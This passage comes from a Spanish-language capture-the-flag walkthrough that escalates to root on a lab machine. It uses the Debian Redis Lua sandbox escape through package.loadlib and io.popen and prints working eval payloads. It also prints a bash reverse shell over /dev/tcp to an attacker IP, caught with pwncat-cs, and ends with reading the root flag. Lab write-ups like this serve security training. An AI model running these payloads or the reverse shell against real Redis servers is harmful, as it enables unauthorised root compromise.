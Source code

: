 Y tenemos ejecución de comandos como `root`
```shell
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
"uid=0(root) gid=0(root) groups=0(root)\n"
```

La vulnerabilidad surge debido a una configuración incorrecta en el entorno de Lua utilizado por Redis en los paquetes de Debian. Específicamente, los paquetes de Redis en Debian no aislaban adecuadamente el entorno de ejecución de Lua, permitiendo que scripts Lua accedieran a funciones peligrosas del sistema operativo.

Lua, al estar mal configurado, tenía acceso a ciertas bibliotecas internas de Lua que permiten la ejecución de código arbitrario

**`package.loadlib` y `ffi`**: Estas bibliotecas permiten cargar bibliotecas dinámicas del sistema y ejecutar código nativo, lo que un atacante puede utilizar para ejecutar código arbitrario en el servidor Redis.

Vamos a ganar la consola como `root`

Nos ponemos en escucha con `pwncat-cs` por el puerto 443
```shell
$ sudo pwncat-cs -lp 443
```

En la máquina víctima nos creamos un pequeño script `rev.sh`
```shell
dan_smith@shared:/tmp$ cat /dev/shm/rev.sh
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.91/443 0>&1"
```

Ejecutamos este script desde `redis` aprovechándonos de la vulnerabilidad encontrada anteriormente..

```shell
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash /dev/shm/rev.sh", "r"); local res = f:read("*a"); f:close(); return res' 0
```

```shell

(local) pwncat$ back
(remote) root@shared:/var/lib/redis# id
uid=0(root) gid=0(root) groups=0(root)
```

Podríamos leer la flag de `root`

```shell
(remote) root@shared:/var/lib/redis# cd /root
(remote) root@shared:/root# ls
c.sh  root.txt
(remote) root@shared:/root# cat root.txt
567b0aecc4a8a5d4c...
```

¡Y ya estaría!

Happy Hacking! 🚀